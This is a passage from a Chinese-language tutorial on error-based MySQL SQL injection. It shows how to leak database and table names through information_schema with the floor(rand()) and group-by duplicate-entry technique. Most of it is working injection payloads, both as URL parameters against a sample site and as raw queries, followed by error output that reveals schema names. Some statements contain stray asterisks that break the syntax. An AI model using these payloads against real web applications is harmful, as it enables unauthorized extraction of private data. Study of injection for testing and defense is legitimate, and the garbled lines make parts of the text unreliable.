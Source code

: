 数据库语句-爆库名2: select * *from test where id =1 and(select 1 from(select* count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 1,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

```plain
mysql> select * from test where id =1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry '~information_schema~1' for key 'group_key'
```

### 0x05 爆表名

注意: table_schema=xxx 修改为其他库会爆出其他库的数据

例如:

table_schema=database()  会获取当前连接的库数据

table_schema='test' 会获取test库数据

注意: LIMIT 0 修改会爆出不同的表名

例如:

修改为0 就是出1表

修改为1 就是出2表

web语句: http://www.test.com/sql.php?id=1+and(select 1 from(select count(*)*,concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

数据库语句-爆当前库的第一张表名: select * *from test where id =1 and(select 1 from(select* count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

数据库语句-爆当前库的第二张表名: select * *from test where id =1 and(select 1 from(select* count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 1,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

```plain
mysql> select * from test where id =1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 1,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);

ERROR 1062 (23000): Duplicate entry '~tdb_goods~1' for key 'group_key'
```

### 0x06 暴字段

table_schema = "xx" 要爆的数据库名

table_name = "xx" 要爆的表名
